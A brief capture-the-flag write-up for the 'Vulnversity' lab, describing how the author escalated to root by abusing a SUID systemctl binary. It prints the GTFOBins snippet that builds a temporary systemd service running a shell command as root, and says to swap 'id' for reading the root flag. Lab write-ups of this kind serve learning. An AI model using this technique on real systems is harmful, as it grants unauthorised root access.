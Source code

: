 # Vulnversity

This CTF is pretty simple. The only difficult problem is the last one.

```
It's challenge time! We have guided you through this far. Can you exploit this system further to escalate your privileges and get the final answer?

Become root and get the last flag (/root/root.txt)
```

I don't know anything about `systemctl` so it was difficult to know where to even start. I looked through the man page, but there is so much stuff there, it's hard to know what to look for. Eventually, I looked up a write up and it led to GTFOBins, which I honestly should've known to look at.

The trick is to replace `id` with `cat /root/root.txt`.

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

This code basically makes a service to read the root.txt and runs the service.

The takeaway for this CTF is that when privilege escalation is involved, I need to look at GTFOBins.
